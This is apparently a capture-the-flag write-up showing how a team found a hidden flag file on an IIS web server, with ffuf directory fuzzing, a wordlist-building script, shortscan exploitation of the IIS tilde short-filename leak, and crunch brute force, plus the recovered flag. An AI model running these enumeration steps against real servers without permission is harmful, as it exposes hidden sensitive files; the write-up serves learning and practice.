


Checking out the `win.secedu.site` we are given a webserver with a simple message:
```
Nothing to see here citizen. Move along now. 
We wouldn't want you to discover any kind of secret content 
around these here parts. 

                      ________________
                      \      __      /         __
                       \_____()_____/         /  )
                       '============`        /  /
                        #---\  /---#        /  /
                       (# @\| |/@  #)      /  /
                        \   (_)   /       /  /
                        |\ '---` /|      /  /
                _______/ \\_____// \____/ o_|
               /       \  /     \  /   / o_|
              / |           o|        / o_| \
             /  |  _____     |       / /   \ \
            /   |  |===|    o|      / /\    \ \
           |    |   \@/      |     / /  \    \ \
           |    |___________o|__/----)   \    \/
           |    '              ||  --)    \     |
           |___________________||  --)     \    /
                |           o|   ''''   |   \__/
                |            |          | 
```


The first thing I try is running a FUZZ with `directory-list-2.3-medium.txt` from SecLists.
```bash
$ ffuf -u "http://win.secedu.site/FUZZ" -w .../SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
...
announcements           [Status: 301, Size: 160, Words: 9, Lines: 2]
Announcements           [Status: 301, Size: 160, Words: 9, Lines: 2]
                        [Status: 200, Size: 1297, Words: 679, Lines: 38]
```

Just a `301` on announcements...

I try making a combined wordlist with a Python script:
```python
with open('./SecLists/Discovery/Web-Content/common.txt', 'r') as f:
    common_file_names = [line.strip() for line in f]

with open('./SecLists/Discovery/Web-Content/raft-large-extensions.txt', 'r') as f:
    common_file_extensions = [line.strip() for line in f]

combined_file_names = []
for name in common_file_names:
    for ext in common_file_extensions:
        combined_file_names.append(f"{name}{ext}")

for file_name in combined_file_names:
    print(file_name)
```

```bash
$ python3 script.py > wordlist-combined.txt
$ ffuf -u "http://win.secedu.site/FUZZ" -w wordlist-combined.txt                                                            

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
...

.git.txt                [Status: 200, Size: 90, Words: 15, Lines: 3]
.git.TXT                [Status: 200, Size: 90, Words: 15, Lines: 3]
Index.htm               [Status: 200, Size: 1297, Words: 679, Lines: 38]
Index.HTM               [Status: 200, Size: 1297, Words: 679, Lines: 38]
```
 
A hit! 
```
What! This isn't the flag?! 
No fair!!111!11
But looks like you are on the right path...
```

Just seems to a nudge that were in the right direction... and index.htm is just the general start page we already had...

Thanks to my teammate's idea, we go back to `announcements` and presume there might be more inside it...

```bash
$ ffuf -u "http://win.secedu.site/announcements/FUZZ" -w .../SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt 


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
...
compressed              [Status: 301, Size: 171, Words: 9, Lines: 2]
```

Alright, let's go again! 

```bash
$ ffuf -u "http://win.secedu.site/announcements/compressed/FUZZ" -w .../SecLists/Discovery/Web-Content/directory-list-2.3-big.txt    


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
...
<fuck all>
```

Or not..? My teammate tries with `raft-large-files-lowercase.txt` as there seems to be no case-sensitivity, and we get a hit!
```bash
$ ffuf -u "http://win.secedu.site/announcements/compressed/FUZZ" -w .../SecLists/Discovery/Web-Content/raft-large-files-lowercase.txt


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
...
readme.txt              [Status: 200, Size: 193, Words: 37, Lines: 4]
```

Cool! `http://win.secedu.site/announcements/compressed/readme.txt`

```
Content discovery is the name of the game here. 
If you guessed this file. Nice try, but not quite. 
Brute force is part of the problem, but can you SHORTEN your guesses and find the flag? 
```

Looking at `SHORTEN`, my brain fires some neurons and has a very good idea...



I immediately think of IIS shorthand vulnerabilities, and I decided to check Wappalyzer to confirm my suspicions.



Bang! I won't go into to too much detail over the functionality of the exploit ([you can read more here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services#microsoft-iis-tilde-character-vulnerability-feature-short-file-folder-name-disclosure)) but it essentially allows enumeration of files in folders on a IIS webserver, it leaks the first **6** characters of the filename and first **3** of the extension.

I use shortscan to get the job done:
```bash
$ shortscan "http://win.secedu.site"                                                                                                                  127 ↵
🌀 Shortscan v0.9.0 · an IIS short filename enumeration tool by bitquark

════════════════════════════════════════════════════════════════════════════════
URL: http://win.secedu.site/
Running: Microsoft-IIS/10.0
Vulnerable: Yes!
════════════════════════════════════════════════════════════════════════════════
GIT~1.TXT            GIT.TXT?   
ANNOUN~1             ANNOUN?             ANNOUNCEMENTS
WELLDO~1.TXT         WELLDO?.TXT? 
════════════════════════════════════════════════════════════════════════════════

════════════════════════════════════════════════════════════════════════════════
URL: http://win.secedu.site/ANNOUNCEMENTS/
Running: Microsoft-IIS/10.0
Vulnerable: Yes!
════════════════════════════════════════════════════════════════════════════════
COMPRE~1             COMPRE?             COMPRESSED
════════════════════════════════════════════════════════════════════════════════

════════════════════════════════════════════════════════════════════════════════
URL: http://win.secedu.site/ANNOUNCEMENTS/COMPRESSED/
Running: Microsoft-IIS/10.0
Vulnerable: Yes!
════════════════════════════════════════════════════════════════════════════════
OTHERF~1.TXT         OTHERF?.TXT? 
VERYSE~1.TXT         VERYSE?.TXT? 
════════════════════════════════════════════════════════════════════════════════

Finished! Requests: 744; Retries: 0; Sent 153260 bytes; Received 308687 bytes
```
Ok! So some new entries:
- `WELLDO~1.TXT` in the site's root
- `OTHERF~1.TXT` and `VERYSE~1.TXT` in the `compressed` folder

I first decide to make a wordlist using words from the SecLists repo that start with those characters, for eg `WELLDO`. This excellent one-liner was crafted by an AI then improved upon by myself.
```bash
$ grep -iR '^welldo' ~/Documents/Hacking/SecLists/ | cut -d':' -f2- | sed 's|^ *||'|sort|uniq > welldo.txt   
$ ffuf -u 'http://win.secedu.site/announcements/compressed/FUZZ.txt' -w welldo.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
...

:: Progress: [74/74] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

Nothing! Alright let's try `OTHERF` and `VERYSE`:
- No results for `VERYSE`
- **1 hit on `OTHERF`**

`otherfiles.txt` is a hit!
```
Are there other files here that don't show up? 
```

Ok, clearly indicating at `VERYSE`, I have an idea!

What if we just bruteforced the remaining characters with `crunch`?

```bash
$ crunch 1 5 abcdefghijklmnopqrstuvwxyz -o wordlist.txt
$ ffuf -w wordlist.txt -u "http://win.secedu.site/announcements/compressed/veryseFUZZ.txt"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
...
crets                   [Status: 200, Size: 57, Words: 1, Lines: 1]
```
A hit!

`verysecrets.txt` gives us the flag.

Flag: `flag{LookAtHowGoodContentDiscoveryIsAtFindingSecrets.lol}`